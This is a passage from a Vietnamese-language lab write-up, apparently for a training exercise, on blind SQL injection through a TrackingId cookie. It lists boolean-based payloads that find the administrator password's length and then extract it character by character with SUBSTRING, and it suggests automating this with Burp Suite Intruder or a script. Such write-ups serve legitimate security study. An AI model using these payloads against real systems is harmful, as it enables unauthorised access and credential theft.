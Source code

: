 ```http
Cookie: TrackingId=aPB8inszaqNX0Lkj'  AND (SELECT  LENGTH(password) FROM users WHERE username='administrator')=19-- //Welcome back
Cookie: TrackingId=aPB8inszaqNX0Lkj'  AND (SELECT  LENGTH(password) FROM users WHERE username='administrator')=20-- //Welcome back
Cookie: TrackingId=aPB8inszaqNX0Lkj'  AND (SELECT  LENGTH(password) FROM users WHERE username='administrator')=21-- //Không có Welcome back
```
Suy ra độ dài của mật khẩu sẽ là `20`.

Dò từ vị trí 1 - 20 của password với các khả năng 1-9, a-z.

```http
Cookie: TrackingId=abcdefghijklm' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a
...
Cookie: TrackingId=abcdefghijklm' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='z

Cookie: TrackingId=abcdefghijklm' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='1
...
Cookie: TrackingId=abcdefghijklm' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='9
```

Đối với từng vị trí từ `1-20` nếu trường hợp nào có `'Welcome back'` thì đó chính là giá trị của vị trí đó trong `password`.

(Có thể sử dụng Burp Suite Intruder hoặc viết một script để brute force password)
